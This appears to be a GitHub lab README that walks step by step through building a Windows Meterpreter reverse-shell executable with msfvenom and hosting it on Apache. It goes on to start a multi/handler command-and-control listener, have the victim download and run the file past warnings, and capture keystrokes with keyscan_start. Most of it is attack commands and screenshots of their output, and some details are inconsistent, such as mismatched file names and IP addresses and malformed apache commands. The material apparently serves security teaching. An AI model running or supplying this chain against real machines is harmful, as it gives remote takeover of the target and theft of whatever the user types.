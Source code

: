 Find the attackers ip address using ifconfig

### Output:

<img width="635" height="335" alt="image" src="https://github.com/user-attachments/assets/31af857d-1157-48e7-83d2-e81fc94172fd" />

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > ak.exe```

### Output:

<img width="716" height="131" alt="image" src="https://github.com/user-attachments/assets/e1c57068-6ae6-46a1-9fbd-0d019e6043c5" />


copy the ak.exe into the apache ```/var/www/html ```folder

<img width="275" height="72" alt="image" src="https://github.com/user-attachments/assets/513f0c8c-0bad-4013-bb2f-05f09ab3f92f" />



Start apache server ```sudo systemctl apache2 start``` 

Check the status of apache2 ```sudo apache2 status```

<img width="762" height="452" alt="image" src="https://github.com/user-attachments/assets/9dab46d0-20ee-4198-aa1e-db6a5671a4b7" />

Invoke msfconsole:

<img width="556" height="366" alt="image" src="https://github.com/user-attachments/assets/27d5a68d-3e03-45e1-8cf4-94bcad43f444" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="742" height="495" alt="image" src="https://github.com/user-attachments/assets/06c2a653-c8a9-4d22-90c3-94ac46b4a2ab" />


Starting a command and control Server ```use multi/handler``` 
```set PAYLOAD windows/meterpreter/reverse_tcp``` 
```set LHOST 0.0.0.0```
```exploit```

### Output 

<img width="601" height="176" alt="image" src="https://github.com/user-attachments/assets/b60a2aa9-1e43-4308-a570-2705b6806f67" />



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.56.101/ak.exe``` The file "ak.exe" downloads.

<img width="957" height="602" alt="image" src="https://github.com/user-attachments/assets/35707247-19fe-4bd9-9245-6484e9ac838e" />

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

<img width="637" height="499" alt="image" src="https://github.com/user-attachments/assets/4047c3d8-6d2a-43b5-848d-e60955b18a83" />


The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name

<img width="388" height="59" alt="image" src="https://github.com/user-attachments/assets/5c539cbd-4376-4e73-9f45-0ebe51afc4fb" />

```